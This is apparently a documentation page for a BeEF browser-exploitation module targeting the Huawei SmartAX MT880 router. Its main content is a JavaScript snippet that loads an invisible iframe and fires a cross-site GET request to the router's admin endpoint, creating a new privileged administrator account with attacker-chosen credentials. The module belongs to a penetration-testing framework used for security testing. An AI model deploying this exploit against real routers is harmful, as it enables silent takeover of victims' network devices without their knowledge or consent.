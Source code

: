 ## Summary

* **Objective**: add an administrator account on a Huawei SmartAX MT880 router
* **Authors**: bcoles
* **Browsers**: All

* [Code](https://github.com/beefproject/beef/tree/master/modules/exploits/router/huawei_smartax_mt880)

## Internal Working

Uses an invisible iframe with a GET request to add an admin account.

```js
  var gateway  = '<%= @base %>';
  var username = '<%= @username %>';
  var passwd   = '<%= @password %>';
  var timeout  = 15;

  var huawei_smartax_mt880_iframe_<%= @command_id %> = beef.dom.createInvisibleIframe();
  huawei_smartax_mt880_iframe_<%= @command_id %>.setAttribute('src', gateway+"Action?user_id="+username+"&priv=1&pass1="+passwd+"&pass2="+passwd+"&id=70");

```

## Feedback

